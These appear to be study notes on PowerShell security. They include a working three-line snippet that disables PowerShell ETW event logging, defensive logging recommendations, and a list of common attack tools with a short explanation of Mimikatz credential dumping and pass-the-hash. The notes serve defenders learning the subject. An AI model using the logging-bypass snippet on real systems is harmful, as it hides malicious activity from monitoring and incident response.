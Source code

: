 ETW = Event Tracing for Windows
Transcripts still show, but not that helpful

https://connect.ed-diamond.com/MISC/misc-104/evolution-de-la-securite-de-powershell-et-techniques-de-contournement

```powershell
$EtwProvider = [Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static');
$EventProvider = New-Object System.Diagnostics.Eventing.EventProvider -ArgumentList @([Guid]::NewGuid());
$EtwProvider.SetValue($null, $EventProvider);
```

## Logging Recommendations

- Deploy the latest version of PowerShell (v5.1+)
- Enable, and collect PowerShell logs, optionally including Protected Event Logging. Incorporate these logs into your signatures, hunting, and incident response workflows.
- Implement Just Enough Administration on high-value systems to eliminate or reduce unconstrained administrative access to those systems.
- Deploy Windows Defender Application Control policies to allow pre-approved administrative tasks to use the full capability of the PowerShell language, while limiting interactive and unapproved use to a limited subset of the PowerShell language.
- Deploy Windows 10 or later to give your antivirus provider full access to all content (including content generated or de-obfuscated at runtime) processed by Windows Scripting Hosts including PowerShell.
- Increase Log sizes (Mandiant recommends 1GB+)

# Popular PS Attack Tools

- 10 tools:
	- Mimikatz
	- NinjaCopy
	- Inveigh
	- Get-Keystrokes
	- Get-GPPPassword 
	- PowerUp
	- PowerView
	- BloodHound
	- Get-Information
	- AMSI Bypass

## Mimikatz

- Dumps credentials from the LSASS process memory
- Gentle Kiwi figured out how to pull the credentials out of Microsoft's data structures in memory
- Microsoft changed to not have passwords in cleartext in memory, but you still see the hashes
- The problem is that Windows accepts hashes for auth - "Pass the Hash" attack

## NinjaCopy
